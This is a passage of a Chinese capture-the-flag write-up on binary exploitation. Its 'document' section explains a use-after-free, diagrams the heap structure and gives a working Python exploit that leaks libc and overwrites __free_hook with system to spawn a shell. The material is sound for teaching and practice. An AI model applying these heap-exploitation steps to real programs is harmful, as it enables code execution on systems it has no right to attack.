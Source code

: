 需要注意远程的 chunk 到 libc 偏移量与本地不同，但是不能通过调试得到。此时可以爆破该偏移，又由于 ASLR 不改变低 12 位，只需要步长为 0x1000。

### bf_note

本题关键在于读取 title 长度时对长度进行了限制，但是后面用的时候依然用的是第一次输入的没有经过限制的长度变量。此外，在读入 description 和 postscript 时存在栈溢出。

接下来的步骤对我而言属于新姿势，而 [原 writeup](https://b0ldfrev.top/2020/02/24/BFnote/) 写得挺详细了，建议参考。

### document

本题存在明显的 uaf 漏洞，关键在于通过逆向弄清结构体的结构：

```
     -----------------------
    | prev_size | size=0x21 |
     -----------------------
--  | ptr       | sex=1     |
|    -----------------------
|   | prev_size | size=0x91 |
|    -----------------------
--> | name      | sex=1     |
     -----------------------
    |                       |
    | information           |
    |                       |
     -----------------------
```

那么我们利用的思路就很简单了，首先由于 `information` 所在的 chunk 固定申请 0x80，也就是实际 0x90 大小，我们可以释放掉一块来泄露 libc。然后新申请的 0x20 堆块都会从从释放的这块中切割，这样只需要在 `ptr` 里写入 `free_hook-0x10`，那么在编辑 `information` 时，`free_hook` 就落在了图中的 `information` 位置，我们写上 `system` 即可。

```python
add('/bin/sh\x00') # 0
add() # 1
add() # 2
free(1)
show(1)
ru('\n')
base = uu64(r(6))-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
free_hook = base+libc.sym['__free_hook']
system = base+libc.sym['system']

add() # 3
add() # 4
edit(1,flat(0,0x21,free_hook-0x10,1)+p64(0)*10)
edit(4,p64(system)+p64(1)+p64(0)*12)
free(0)
```

## VNCTF 2020

第一次见到堆题比栈题解答人数还多的比赛。
